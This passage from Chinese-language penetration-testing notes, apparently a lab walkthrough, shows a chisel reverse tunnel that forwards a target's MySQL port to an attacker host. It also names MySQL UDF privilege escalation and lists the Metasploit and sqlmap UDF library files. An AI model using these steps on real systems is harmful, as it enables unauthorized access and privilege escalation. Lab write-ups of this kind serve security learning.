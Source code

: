   kali执行

  ```bash
  └─# chisel server -p 9595 reverse
  ```

  靶机执行

  ```
  chisel1.8.1.exe client 10.10.16.3:9595 R:3306:localhost:3306
  ```

  

- udf 提权  配合远程smb执行文件

  <img src=".\图片\Snipaste_2023-08-31_17-35-07.png" alt="Snipaste_2023-08-31_17-35-07" style="zoom: 150%;" />

  ```bash
  └─# locate mysqludf                                                                                                                                           1 ?
  /usr/share/metasploit-framework/data/exploits/mysql/lib_mysqludf_sys_32.dll
  /usr/share/metasploit-framework/data/exploits/mysql/lib_mysqludf_sys_32.so
  /usr/share/metasploit-framework/data/exploits/mysql/lib_mysqludf_sys_64.dll
  /usr/share/metasploit-framework/data/exploits/mysql/lib_mysqludf_sys_64.so
  /usr/share/sqlmap/data/udf/mysql/linux/32/lib_mysqludf_sys.so_
  /usr/share/sqlmap/data/udf/mysql/linux/64/lib_mysqludf_sys.so_
  /usr/share/sqlmap/data/udf/mysql/windows/32/lib_mysqludf_sys.dll_
  /usr/share/sqlmap/data/udf/mysql/windows/64/lib_mysqludf_sys.dll_
  ```
  
  <img src=".\图片\Snipaste_2023-08-31_17-37-58.png" alt="Snipaste_2023-08-31_17-37-58" style="zoom:80%;" />
